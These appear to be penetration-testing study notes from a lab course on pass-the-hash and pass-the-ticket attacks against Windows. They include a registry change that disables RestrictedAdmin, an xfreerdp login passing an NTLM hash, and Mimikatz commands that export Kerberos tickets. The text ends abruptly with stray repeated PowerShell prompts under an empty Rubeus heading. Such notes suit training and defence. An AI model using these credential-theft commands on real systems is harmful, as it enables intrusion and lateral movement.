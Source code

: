 `c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

![Untitled](Password%20Attacks%2088ea15aa39714a8a88573b29fcac0d3a/Untitled%202.png)

`xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B`

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

**Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.

### **Pass the Ticket (PtT) from Windows**

In this attack we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.

### Kerberos Protocol Refresher

- Client first sends server access request with its credential to `authentication server` present in `Key Distribution center`
- If credential is correct `authentication server` send the client `TGT - Ticket Granting Ticket`
- Then client sends this `TGT` to `TGS - Ticket Granting Server` present in `Key Distribution center`
- `TGS` decrypts this `TGT` and provides the client with a `token` that is encrypted with a different key
- Client then sends this `token` to the server, the server receives this `token` and encrypts this token with a secret key shared with the `TGS`
- Based on the token, server allows time-sensitive access

![Untitled](Password%20Attacks%2088ea15aa39714a8a88573b29fcac0d3a/Untitled%203.png)

# **Harvesting Kerberos Tickets from Windows**

> USING MIMIKATZ

We can harvest all tickets from a system using the `Mimikatz` module `sekurlsa::tickets /export`. we will get files with `.kirbi` extension

`mimikatz`

`privilege::debug`

`sekurlsa::tickets /export`

- The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory
- User tickets have the user's name, followed by an `@` that separates the service name and the domain `[randomvalue]-username@service-domain.local.kirbi`

> USING REBEUS


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname